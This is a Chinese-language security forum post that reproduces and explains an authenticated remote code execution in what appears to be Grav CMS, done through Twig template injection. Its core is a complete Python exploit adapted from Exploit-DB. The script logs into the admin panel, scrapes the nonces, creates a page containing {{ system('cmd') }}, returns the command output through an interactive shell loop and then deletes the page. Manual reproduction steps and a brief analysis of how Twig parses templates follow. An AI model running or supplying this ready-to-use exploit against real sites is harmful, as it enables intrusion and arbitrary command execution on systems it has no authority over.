 环境搭建
----

利用docker搭建环境,发现该cms不需要数据库,数据是直接写在了文件当中的.  
关键需要开启环境配置中的Twig选项  
[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-20f1f19fd2e278ea49e614957b743a5cf8c1c645.png)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-20f1f19fd2e278ea49e614957b743a5cf8c1c645.png)

漏洞复现
----

该漏洞的exp是从expdb上面下载的,但是实际跑出来的时候发现他在构造exp中的form\_id和nonce的时候爬取出来的数据是错误的,于是做了修改  
此处是修改后的exp

```php
import requests
from bs4 import BeautifulSoup
import random
import string

username = 'admin'
password = 'Admin888'
url = 'http://127.0.0.1'

session = requests.Session()

# Autheticating
## Getting login-nonce
def login(url,username,password):
    r = session.get(url + "/admin")
    soup = BeautifulSoup(r.text, features="lxml")
    nonce = str(soup.findAll('input')[2])
    nonce = nonce[47:79]

    ## Logging in
    payload =f'data%5Busername%5D={username}&data%5Bpassword%5D={password}&task=login&login-nonce={nonce}'
    headers = {'Content-Type': 'application/x-www-form-urlencoded'}
    r = session.post(url+"/admin",data=payload,headers=headers)

# Creating Page for RCE

def rce(url,cmd):
    ## Getting form nonce and unique form id
    project_name = ''.join(random.choices(string.ascii_uppercase + string.digits, k = 8))
    r = session.get(url+f"/admin/pages/{project_name}/:add")
    #print(r.text)
    soup = BeautifulSoup(r.text, features="lxml")
    # print(soup)
    form_id = str(soup.findAll('input')[-2])
    nonce = str(soup.findAll('input')[-1])
    form_id = form_id[54:86]
    nonce = nonce[46:78]
    # print(form_id)
    # print(nonce)

    ## Creating Page
    headers = {'Content-Type': 'application/x-www-form-urlencoded'}
    payload = f'task=save&data%5Bheader%5D%5Btitle%5D={project_name}&data%5Bcontent%5D=%7B%7B+system%28%27{cmd}%27%29+%7D%7D&data%5Bfolder%5D={project_name}&data%5Broute%5D=&data%5Bname%5D=default&data%5Bheader%5D%5Bbody_classes%5D=&data%5Bordering%5D=1&data%5Border%5D=&toggleable_data%5Bheader%5D%5Bprocess%5D=on&data%5Bheader%5D%5Bprocess%5D%5Btwig%5D=1&data%5Bheader%5D%5Border_by%5D=&data%5Bheader%5D%5Border_manual%5D=&data%5Bblueprint%5D=&data%5Blang%5D=&_post_entries_save=edit&__form-name__=flex-pages&__unique_form_id__={form_id}&form-nonce={nonce}&toggleable_data%5Bheader%5D%5Bpublished%5D=0&toggleable_data%5Bheader%5D%5Bdate%5D=0&toggleable_data%5Bheader%5D%5Bpublish_date%5D=0&toggleable_data%5Bheader%5D%5Bunpublish_date%5D=0&toggleable_data%5Bheader%5D%5Bmetadata%5D=0&toggleable_data%5Bheader%5D%5Bdateformat%5D=0&toggleable_data%5Bheader%5D%5Bmenu%5D=0&toggleable_data%5Bheader%5D%5Bslug%5D=0&toggleable_data%5Bheader%5D%5Bredirect%5D=0&data%5Bheader%5D%5Bprocess%5D%5Bmarkdown%5D=0&toggleable_data%5Bheader%5D%5Btwig_first%5D=0&toggleable_data%5Bheader%5D%5Bnever_cache_twig%5D=0&toggleable_data%5Bheader%5D%5Bchild_type%5D=0&toggleable_data%5Bheader%5D%5Broutable%5D=0&toggleable_data%5Bheader%5D%5Bcache_enable%5D=0&toggleable_data%5Bheader%5D%5Bvisible%5D=0&toggleable_data%5Bheader%5D%5Bdebugger%5D=0&toggleable_data%5Bheader%5D%5Btemplate%5D=0&toggleable_data%5Bheader%5D%5Bappend_url_extension%5D=0&toggleable_data%5Bheader%5D%5Broutes%5D%5Bdefault%5D=0&toggleable_data%5Bheader%5D%5Broutes%5D%5Bcanonical%5D=0&toggleable_data%5Bheader%5D%5Broutes%5D%5Baliases%5D=0&toggleable_data%5Bheader%5D%5Badmin%5D%5Bchildren_display_order%5D=0&toggleable_data%5Bheader%5D%5Blogin%5D%5Bvisibility_requires_access%5D=0'
    print(payload)
    r = session.post(url+f"/admin/pages/{project_name}/:add",data=payload,headers=headers)
    # print(r.text)
    ## Getting command output
    r = session.get(url+f"/{project_name.lower()}")
    if 'SyntaxError' in r.text:
        print("[-] Command error")
    else:
        a = r.text.split('<section id="body-wrapper" class="section">')
        b = a[1].split('</section>')
        print(b[0][58:])

    # Cleaning up
    ## Getting admin-nonce
    r = session.get(url + "/admin/pages")
    soup = BeautifulSoup(r.text, features="lxml")
    nonce = str(soup.findAll('input')[32])
    nonce = nonce[47:79]

    ## Deleting Page
    r = session.get(url+f"/admin/pages/{project_name.lower()}/task:delete/admin-nonce:{nonce}")

login(url,username,password)

while True:
    cmd = input("$ ")
    rce(url,cmd)
```

直接输入即可命令执行  
具体实际上的网页操作如下  
首先利用用户名和密码登陆后台  
[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-02ea975146757786085441a1abf3b46ff8255551.png)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-02ea975146757786085441a1abf3b46ff8255551.png)  
然后选择page并且新建一个页面  
[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-39edb8bc47c133e709bf5097d90eaed03c2d6a26.png)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-39edb8bc47c133e709bf5097d90eaed03c2d6a26.png)  
随机输入数据  
[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-d83ba01ca48be244ef6320122981c5b67edbf94e.png)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-d83ba01ca48be244ef6320122981c5b67edbf94e.png)  
然后在content处输入payload数据`{{system('ls')}}`其中system中的数据可以替换成任意的命令执行的数据  
[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-cc2f5288811d91bd5c3fa742875049fc5430c939.png)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-cc2f5288811d91bd5c3fa742875049fc5430c939.png)  
前台选中这个page即可执行该命令  
[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-6cb7d270e288d683dd41d34d0e19a8fd46310220.png)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-6cb7d270e288d683dd41d34d0e19a8fd46310220.png)

漏洞分析
----

首先是在后台编辑了conten中的数据为特殊个是然后在page总保存为了page.md  
根据官方文档我们知道用户的内容都储存在user/pages/中.并且两个页面是单独的文件夹子中存存储的markdown文件  
所以页面是以makdown语法构成,通过解析轻松的转换为html,后台编辑新的页面可以直接生成文件夹并且利用默认的模版格式.  
我们修改的地方可以知道是从该图片知道  
[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-1928f6ceb0f36d59b73e67dc6a5745707341c475.png)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-1928f6ceb0f36d59b73e67dc6a5745707341c475.png)  
保存在/user/config/system.yaml中  
可以看到开启了twig后是图片中的数据由false变为了true  
阅读官网文档可以知道是利用twig解析模版,在内容中使用了Twig功能.  
那么重要的就是twig是如何解析代码的  
我们知道Twig是一个快速的优化的php引擎,可以将模版编译为普通的php  
TWig主要是有两个语法  
{{ }} 打印出表达式的输出结果  
{% %} 执行语句  
所以此处我们利用system('ls')执行php的代码输出结果  
该漏洞其实已经分析完毕  
漏洞很简单只是利用了twig模版的解析执行php代码,更多可以去阅读官方文档来深入学习,在这就不做赘述了  
附上文档的网站  
<https://www.kancloud.cn/yunye/twig-cn>